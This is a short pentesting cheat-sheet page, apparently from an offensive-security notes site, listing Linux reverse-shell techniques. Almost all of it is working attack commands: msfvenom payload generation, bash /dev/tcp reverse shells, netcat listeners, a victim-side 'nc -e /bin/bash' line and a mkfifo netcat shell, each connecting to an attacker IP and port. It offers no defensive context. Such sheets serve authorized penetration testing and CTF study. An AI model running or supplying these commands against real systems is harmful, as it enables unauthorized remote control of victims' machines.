 ```yaml
---
title: Linux
parent: Shell (Reverse/Others)
grand_parent: Exploit / Initial Access
layout: default
nav_order: 2
---
```


Most common: 
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell1.elf`

Simple bash:\
`bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"`

OR

`bash -i >& /dev/tcp/ip/port 0>&1`

Netcat listener (remove rlwrap if cannot use):\
`rlwrap nc -nvlp 8007`

MSFVenom to generate (can change cmd/unix to linux/x64):\
`msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'`\
Use it with:\
`msfvenom -p cmd/xxx LHOST=IP LPORT=yyy -f elf > shell.elf`\
(Remember `chmod +x`)

Simple netcat listener:
`nc -nvlp 4444`

Victim:
`nc -e /bin/bash IP 4444`

`mkfifo /tmp/bzxltd; nc IP PORT 0</tmp/bzxltd | /bin/sh >/tmp/bzxltd 2>&1; rm /tmp/bzxltd`